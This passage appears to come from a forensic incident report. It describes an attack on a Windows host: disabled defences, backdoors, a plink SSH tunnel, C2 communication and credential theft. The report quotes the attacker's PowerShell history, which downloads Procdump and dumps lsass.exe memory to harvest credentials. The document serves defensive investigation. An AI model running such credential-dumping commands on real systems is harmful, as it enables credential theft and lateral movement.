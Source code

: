 
### **Conclusion**

The extent of the compromise was severe, involving multiple stages of infection that effectively disabled the system's defenses, established persistent backdoors, and enabled remote access through an SSH tunnel. The attacker's use of PowerShell scripts and malicious executables, combined with the creation of an SSH tunnel via `plink.exe`, allowed for sustained control over the compromised system. The execution of `procdump64.exe` to dump the memory of `lsass.exe` provided the attacker with access to sensitive credentials, which could be used for further exploitation or lateral movement within the network. The communication with a C2 server further indicates that the attacker maintained ongoing remote access, potentially for data exfiltration or further exploitation.

This report highlights the sophisticated nature of the attack, the methods used to bypass security measures, and the extent of the system compromise. The evidence gathered from PowerShell logs, memory analysis, and network traffic provides a detailed understanding of the attack's progression and impact. 

--- 
## **3. Was Anything Taken?**

The investigation into the compromised system revealed that sensitive information was likely stolen from the host. The attacker used various tools and methods to extract and potentially exfiltrate critical data, including credential dumps, remote access through an SSH tunnel, and possible file transfers.

---

### **What Information Was Likely Stolen from the Host?**

#### **1. Credential Dumping via `Procdump`**

One of the most critical pieces of evidence pointing to data exfiltration is the use of `procdump64.exe`, a Sysinternals tool, to dump the memory of the `lsass.exe` process. The Local Security Authority Subsystem Service (LSASS) is responsible for enforcing security policies on the system, including managing user logins, password changes, and generating access tokens. By dumping the memory of `lsass.exe`, the attacker could extract plaintext passwords and other authentication tokens, which could then be used for lateral movement within the network or for further exploitation.

- **Evidence:**
  - **Command History:**
    The command history captured in `ConsoleHost_history.txt` reveals that the attacker downloaded `Procdump`, extracted the `lsass.dmp` file, and potentially exfiltrated sensitive credentials stored within it.

    ```plaintext
    cd \Users\Craig\Desktop
    dir
    $uri = "https://download.sysinternals.com/files/Procdump.zip"
    Invoke-WebRequest -Uri $uri -OutFile "Procdump.zip"
    cd .\Procdump\
    procdump64.exe -ma -accepteula lsass.exe lsass.dmp
    dir
    .\procdump64.exe -ma -accepteula lsass.exe lsass.dmp
    ```
